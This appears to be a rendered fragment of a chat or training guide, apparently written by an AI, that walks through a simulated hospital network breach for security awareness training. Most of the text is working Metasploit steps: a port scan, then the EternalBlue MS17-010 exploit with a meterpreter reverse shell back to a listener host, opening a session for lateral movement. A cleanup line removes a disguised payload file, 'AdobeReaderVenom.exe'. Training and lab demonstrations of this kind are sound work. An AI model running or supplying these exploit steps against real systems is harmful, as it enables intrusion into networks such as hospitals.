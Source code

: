 ### 🔍 Scan next target (`192.168.1.53`):

```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.53
set PORTS 445,3389,80,139
run
```

---

### 💉 Exploit vulnerable service (example: EternalBlue MS17-010):

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.53
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.36
set LPORT 4445
exploit
```

When it lands:

```bash
sessions
sessions -i 2
```

Boom. You’ve now moved laterally.

---

### 🧼 Optional Cleanup

After the demo, clean up sessions and malware files:

```bash
rm AdobeReaderVenom.exe
```

And reboot infected VMs if needed.

---

[![Schematic representation of a network intrusion. | Download Scientific ...](https://tse3.mm.bing.net/th?id=OIP.svBqQEtWYZ67BzsiUv81VQHaE6\&pid=Api)](https://www.researchgate.net/figure/Schematic-representation-of-a-network-intrusion_fig4_260396735)

Absolutely — a strong visual can make your cybersecurity training more impactful. Below is a conceptual diagram illustrating a simulated hospital breach, encompassing the stages of initial access, privilege escalation, and lateral movement. This visualization is designed to resonate with nursing staff, operational leaders, and executives by depicting how a seemingly minor action can lead to significant consequences.

---
